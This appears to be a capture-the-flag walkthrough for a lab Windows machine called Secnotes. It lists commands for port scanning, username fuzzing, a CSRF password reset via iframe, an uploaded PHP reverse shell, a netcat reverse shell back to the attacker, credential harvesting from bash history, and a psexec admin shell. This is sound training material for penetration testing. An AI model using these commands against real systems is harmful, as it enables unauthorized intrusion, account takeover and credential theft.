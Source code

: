 # Secnotes

### Summary

<details>
<summary>Spoiler Summary</summary>
Windows machine that uses SQL injection and some XSS with the logins for access to the notes app. Escalate privileges from there using a root shell installed on the machine
</details>

### Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Find ports 80, 445, and 8808 are open

#### Scan the open ports

![alt text](image.png)
![alt text](image-1.png)

Go to the website on port 80
`http://10.129.244.217/login.php`

#### Check for valid usernames using wfuzz

- find the username "tyler"

```
wfuzz -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" --hs "No account found with that username." -u http://10.129.244.217/login.php
```

![alt text](image-3.png)

#### Create a new user and Login

Clicking around, you find the change password API on the page does not include verifying your old password, so that could be exploited later.

- If the request is changed from a POST to a GET, you can change the password.
  ![alt text](image-4.png)

#### Create a note and add \<center\> tags to the content of the pages

![alt text](image-5.png)

#### Notes and their content are centered. HTML is not sanitized at all, so website is vulnerable to XSS

![alt text](image-6.png)

Create an html file with an iframe in it linking to the url in the password reset page from burp.
![alt text](image-10.png)

Test it on yourself and find that the link takes you to the page but doesn't fill in any information or click any links. Try sending it to tyler directly.
![alt text](image-8.png)

It works and you can now login as tyler using the `password112` password

Check smb shares on the target machine using the credentials found in tyler's notes.
![alt text](image-9.png)

Login to the smb share using the credentials

`smbclient \\\\10.129.33.69\\new-site -U tyler`

Try to get a reverse shell by uploading a file to the website using the SMB share
`revsh.php`  
Use the put command from the smb share to upload the file.
![alt text](image-11.png)

Run it from the browser and website using
`http://10.129.44.254:8808/revsh.php?fakename=whoami`

Download netcat64 to get a better shell than the smbclient  
https://eternallybored.org/misc/netcat/

Use the smbshare to upload it to the target machine  
`put nc64.exe`

Run the netcat shell using  
`http://<RHOST>:8808/request.php?fakename=nc64.exe <LHOST> <LPORT> -e powershell`

Get a reverse shell  
![alt text](image-12.png)

Check the `bash.lnk` file  
Bash is installed on this windows machine, so run it using `bash`  
![alt text](image-13.png)

check the user and find you are running as the root user  
![alt text](image-14.png)

`cd` to mnt (mount) which is where the C drive is
Try `cd /root`
![alt text](image-15.png)

find the `.bash_history` file which contains an admin user and password
![alt text](image-16.png)

Get a root shell using  
`impacket-psexec administrator@<IP_ADDR>`
